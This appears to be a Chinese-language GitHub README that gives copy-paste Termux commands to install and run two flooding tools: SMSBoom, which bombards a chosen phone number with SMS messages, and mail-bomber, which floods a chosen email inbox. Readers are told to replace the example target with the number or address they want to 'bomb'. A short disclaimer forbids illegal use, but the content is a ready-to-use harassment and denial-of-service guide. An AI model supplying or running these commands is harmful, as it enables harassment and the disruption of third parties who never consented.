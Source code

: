   ## 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
- 
  ## 一键代码使用
  ### 短信轰炸
  `pkg install git && pkg install python && pkg install openssl &&  git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ### 邮箱轰炸
 `pkg install git && pkg install php && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber `
 

 
更新接口（可选）
`php index.php update-nodes`

后续使用
`cd mail-bomber;php index.php start-bombing 邮箱`
将要轰炸的邮箱替换


## 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


